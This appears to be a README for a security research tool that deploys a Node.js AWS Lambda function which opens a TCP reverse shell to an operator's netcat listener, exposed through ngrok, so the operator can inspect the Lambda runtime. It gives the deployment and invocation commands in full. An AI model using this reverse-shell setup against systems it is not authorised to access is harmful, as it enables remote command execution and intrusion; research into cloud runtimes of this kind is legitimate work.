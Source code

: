 # Puma Prey Panther

Panther is a Node.js function that can be deployed to the AWS to establish a TCP reverse shell for the purposes of introspecting the Lambda container runtime.

## Installing Prerequisites

* [AWS Command Line Interface](https://aws.amazon.com/cli/)
* [Node.js v16 / NPM](https://nodejs.org/en/download/)
* [Terraform](https://learn.hashicorp.com/terraform/getting-started/install.html)

## Deploying The Function

```bash
# AWS profile to use for the deployment
export TF_VAR_profile=default
export TF_VAR_unique_identifier=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}') 
cd ./panther/src/terraform
terraform init
terraform apply --auto-approve
```

## Function Testing

Retrieve the Function URL and API Key via the CLI.

```bash
export PANTHER_FUNCTION_URL=$(terraform output --json | jq -r '.panther_function_url.value')
export PANTHER_API_KEY=$(terraform output -json | jq -r '.panther_function_api_key.value')
curl -H "X-API-Key: $PANTHER_API_KEY" $PANTHER_FUNCTION_URL
```

The result should show an error message indicating required C2 parameters are missing:

```json
{"message":"Must provide the host and port for the target TCP server as query parameters."}
```

See [here](../script/USAGE.md) for more details on how to use this script.

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

Then, to make your listener accessible from the public internet, consider using a service like ngrok:

```bash
ngrok tcp 4444
```

Finally, invoke your function, supplying your connection details and API key:

```bash
curl -H "X-API-Key: $PANTHER_API_KEY" $PANTHER_FUNCTION_URL
?host=NGROK_PORT_IP&port=NGROK_PORT_NUMBER"
```

Your listener will now act as a reverse shell for the duration of the function invocation.

## Teardown

```bash
terraform destroy
```

## Learning More

Read [documentation](docs) on what you can accomplish once you connect to the runtime via Panther.
